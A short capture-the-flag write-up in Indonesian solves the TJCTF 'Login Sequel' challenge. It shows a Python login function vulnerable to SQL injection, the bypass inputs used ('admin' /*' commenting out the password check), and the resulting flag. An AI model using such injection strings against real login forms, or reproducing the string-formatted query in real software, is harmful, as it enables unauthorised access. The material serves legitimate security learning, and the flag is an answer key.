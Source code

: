 # Login Sequel

## SOAL
![Login sequel](https://user-images.githubusercontent.com/26424136/83002844-bb0c1c80-a037-11ea-972d-124236c9f3ef.PNG)
Tampilan Halaman Login
![login sequel 1](https://user-images.githubusercontent.com/26424136/82976688-f09a1100-a009-11ea-8ce7-222763d7b14c.PNG)

## Penyelesaian
- Masalah injeksi SQL.
- Kita dapat memeriksa kueri dengan melihat sumbernya.
```
def get_user(username, password):
    database = connect_database()
    cursor = database.cursor()
    try:
        cursor.execute('SELECT username, password FROM `userandpassword` WHERE username=\'%s\' AND password=\'%s\'' % (username, hashlib.md5(password.encode())))
    except:
        return render_template("failure.html")
    row = cursor.fetchone()
    database.commit()
    database.close()
    if row is None: return None
    return (row[0],row[1])
```
- Periksa nilai yang difilter
```
admin' || 1=1 #
```
- Saat dicoba memang gagal, tapi hal tersebut tidak menunjukkan kesalahan, jadi itu adalah time based injection dan saya mencoba melakukan _benchmarking_ dan _sleep_. <br />

- Saya memberikan `/ * * /` pada source code tersebut, disini kata sandi dilewati karena sedang diproses <b>md5</b>.
```
username: admin' /*
```
![login sequel 2](https://user-images.githubusercontent.com/26424136/82976691-f1cb3e00-a009-11ea-867e-50549e12ae64.PNG) <br />
Flag telah ditemukan.

## Flag
Flag: <b>tjctf{W0w_wHa1_a_SqL1_exPeRt!}</b> 
